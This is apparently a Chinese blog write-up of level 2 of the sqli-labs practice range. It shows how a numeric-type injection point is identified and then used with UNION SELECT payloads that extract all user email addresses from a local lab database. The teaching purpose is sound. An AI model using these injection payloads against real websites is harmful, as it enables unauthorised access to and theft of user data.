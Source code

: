 ```yaml
---
title: "Sql-Lib第二关"
date: 2019-08-21T17:29:11+08:00
description: "数字型的注入题"
draft: false
hideToc: false
enableToc: true
enableTocContent: false
tocPosition: inner
tocLevels: ["h2", "h3", "h4"]
tags:
- "OWASP-TOP 10"
- "sql_lib"
- "SQL注入"
categories:
- "渗透测试"
series:
- "技术研究"
image: 
---
```


- 漏洞类型：GET - Error based - intiger based
- 目标网址（本地靶场）：http://www.sqllib.com/less-2/?id=
- 目标：获取网站用户的邮箱

---



# ① 判断接受的参数类型

## 单引号测试

```
id=1'
```

### 报错

> check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1

## 闭合前后单引号，布尔表达式测试

```
id=1' and '1
```

### 报错

> check the manual that corresponds to your MySQL server version for the right syntax to use near '' and '1 LIMIT 0,1' at line 1

## 运算操作符测试

```
id=2-1
```
**成功显示 "id=1" 时的信息！**

一开始，我们假设是字符型，通过 (id=1' and '1) 尝试闭合单引号，使得SQL语句能够正常带入数据库查询，但是失败了。

通过（id=2-1）正常显示 "id=1" 时的用户信息，说明当前传入的参数类型是数字型，支持运算操作符号。

# ② 通过 Union selecet 查询数据

```
① id=-1 union select null,id,email_id from security.emails limit m,1
② id=1 and 1=2 union select null,id,email_id from security.emails limit m,1
```

- m 范围 1~99 的数字

- "id=-数字" 和 "id=1 and 1=2" 效果是一样的，**都是为了使得正常的查询结果不存在**，而让数据库继续把 Union 后的查询语句，带入数据库查询，并回显信息。

接下来通过改变 m 的数值，能够查询出所有的用户邮箱信息。